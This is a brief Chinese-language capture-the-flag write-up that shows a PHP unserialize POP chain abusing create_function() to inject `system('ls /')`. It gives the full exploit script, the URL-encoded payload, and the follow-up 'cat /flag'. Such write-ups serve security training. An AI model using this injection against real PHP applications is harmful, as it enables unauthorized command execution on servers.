

利用一个creat_function()函数去做这里，`$a('', $this->code);`

要执行到getflag的get_flag方法，就可以这样打pop链

```php
<?php
class func
{
    public $key;
    public function __construct()
    {
        $this->key = serialize([new GetFlag(), "get_flag"]);
    }
}

class GetFlag
{
    public $code;
    public $action;
    public function __construct()
    {
        $this->code = ";}system('ls /');//";
        $this->action = "create_function";
    }
}
echo urlencode(serialize(new func()));  
```

`O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D`

成功执行了命令，flag在根目录



然后就是cat /flag就OK了


